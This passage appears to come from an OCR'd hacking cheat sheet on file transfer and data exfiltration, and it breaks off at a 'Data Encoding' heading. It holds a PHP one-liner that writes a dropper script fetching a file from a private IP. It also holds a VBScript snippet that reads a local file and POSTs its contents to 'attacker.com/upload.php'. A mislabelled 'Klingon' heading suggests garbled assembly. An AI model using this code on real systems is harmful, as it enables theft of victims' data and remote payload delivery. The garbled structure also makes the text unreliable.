 Download a file with a PHP oneliner:

## Klingon

Download a file with a PHP oneliner:

```php
<?php
$fileUrl = 'http://example.com/file.txt';
$saveTo = '/path/to/save/file.txt';
file_put_contents($saveTo, file_get_contents($fileUrl));
?>
```

This PHP code snippet allows you to download a file from a specified URL and save it to a specified location on your system. Simply replace the `$fileUrl` variable with the URL of the file you want to download, and replace the `$saveTo` variable with the path where you want to save the downloaded file.
```bash
echo "<?php file_put_contents('nameOfFile', fopen('http://192.168.1.102/file', 'r')); ?>" > down2.php
```
## VBScript

### Introduction

VBScript (Visual Basic Scripting Edition) is a scripting language developed by Microsoft. It is often used for automating tasks and creating dynamic web pages. In the context of hacking, VBScript can be used for various purposes, including exfiltration of data.

### Exfiltration Techniques

#### 1. File Transfer

VBScript can be used to transfer files from the target system to the attacker's machine. This can be achieved by reading the contents of a file on the target system and sending it to the attacker's machine using various methods such as HTTP, FTP, or email.

```vbs
' Read the contents of a file
Set objFSO = CreateObject("Scripting.FileSystemObject")
Set objFile = objFSO.OpenTextFile("C:\path\to\file.txt", 1)
strContents = objFile.ReadAll
objFile.Close

' Send the contents to the attacker's machine using HTTP
Set objHTTP = CreateObject("WinHttp.WinHttpRequest.5.1")
objHTTP.Open "POST", "http://attacker.com/upload.php", False
objHTTP.SetRequestHeader "Content-Type", "application/x-www-form-urlencoded"
objHTTP.Send "data=" & strContents
```

#### 2. Data Encoding
